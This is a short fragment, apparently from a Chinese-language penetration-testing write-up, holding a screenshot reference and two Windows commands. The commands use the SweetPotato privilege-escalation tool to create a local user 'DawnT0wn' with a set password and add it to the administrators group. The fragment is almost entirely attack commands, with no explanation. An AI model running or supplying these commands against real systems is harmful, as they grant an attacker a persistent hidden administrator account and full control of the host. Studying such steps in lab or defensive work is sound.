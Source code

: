 ![QQ_1725766284130](images/18.png)

```
C:/迅雷下载/SweetPotato.exe -a "net user DawnT0wn qwer1234! /add"
C:/迅雷下载/SweetPotato.exe -a "net localgroup administrators DawnT0wn /add"
```
